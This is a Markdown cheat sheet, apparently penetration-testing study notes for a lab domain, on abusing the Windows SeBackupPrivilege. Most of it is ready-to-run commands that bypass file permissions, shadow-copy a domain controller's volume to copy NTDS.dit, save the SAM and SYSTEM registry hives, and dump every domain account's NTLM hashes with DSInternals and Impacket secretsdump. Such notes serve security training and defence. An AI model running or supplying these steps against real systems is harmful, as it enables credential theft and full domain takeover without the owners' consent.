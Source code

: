 
# Leveraging Backup Privilege for Privilege Escalation
## Backup Operators
The members of the "Backup Operators" security group have SeBackupPrivilege & SeRestorePrivilege.
Abusing these privileges gives the ability to read / write everywhere on the filesystem, with no regard for ACLs.
We cannot just copy files we don't have access to, we need to set the flag FILE_FLAG_BACKUP_SEMANTICS in our calls to WinAPI.

### Using SeBackupPrivilegeUtils PowerShell Module
[This PowerShell module](https://github.com/giuliano108/SeBackupPrivilege) provides Cmdlets to copy a file using the backup flag. 
```ps
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Check if the privilege is enabled
Get-SeBackupPrivilege

# Enables SeBackupPrivilege
Set-SeBackupPrivilege

# Copies a file
Copy-FileSeBackupPrivilege \path\to\file \path\to\copy
```

### Using robocopy
[robocopy](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) is a built in executable allowing us to copy files in backup mode using the '/b' flag: 
```
robocopy /b \path\to\file \path\to\copy
```

### Copying NTDS.dit
NTDS.dit is a juicy target, as it contains the NTLM hashes for every object in the domain. However it is locked and we cannot access it normally. <br>
We need to create a Shadow copy of the C:\ volume using vssadmin or with [diskshadow.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) and map it as a new E:\ volume like this :
```ps1
PS C:\> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
Then, simply copy the NTDS.dit file from the shadow copy :
```ps1
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\path\to\save
```

### SAM and SYSTEM Registry Hives
This privilege also allows us to backup the registry hives,
```bat
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

### Extract hashes from NTDS.dit
#### Using [DSInternals.ps1](https://github.com/MichaelGrafnetter/DSInternals/tree/master)

```ps1
Import-Module .\DSInternals.ps1
$key = Get-BootKey -SystemHivePath .\SYSTEM.SAV
# To dump all hashes (/!\ Very long output) : 
Get-ADDBAccount -All -DBPath .\ntds.dit -BootKey $key

# To dump a specific domain account (here, Administrator@inlanefreight.local): 
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=user,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```
#### Using Impacket's secrestdump.py
```ps1
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
